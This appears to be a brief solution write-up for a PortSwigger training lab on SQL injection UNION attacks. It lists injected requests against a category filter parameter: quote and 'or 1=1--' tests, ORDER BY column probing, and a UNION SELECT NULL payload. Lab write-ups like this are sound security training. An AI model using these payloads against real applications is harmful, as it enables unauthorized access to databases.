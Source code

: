 #Lab: SQL injection UNION attack, determining the number of columns returned by the query

#https://portswigger.net/web-security/sql-injection/union-attacks/lab-determine-number-of-columns

```bash
GET /filter?category=Lifestyle'
```
```bash
GET /filter?category=Lifestyle'or 1=1--
```
```bash
GET /filter?category=Lifestyle'order by 3--

GET /filter?category=Lifestyle'order by 4--
```
```bash
Lifestyle' UNION SELECT NULL,NULL,NULL--
```
#Lab Completed
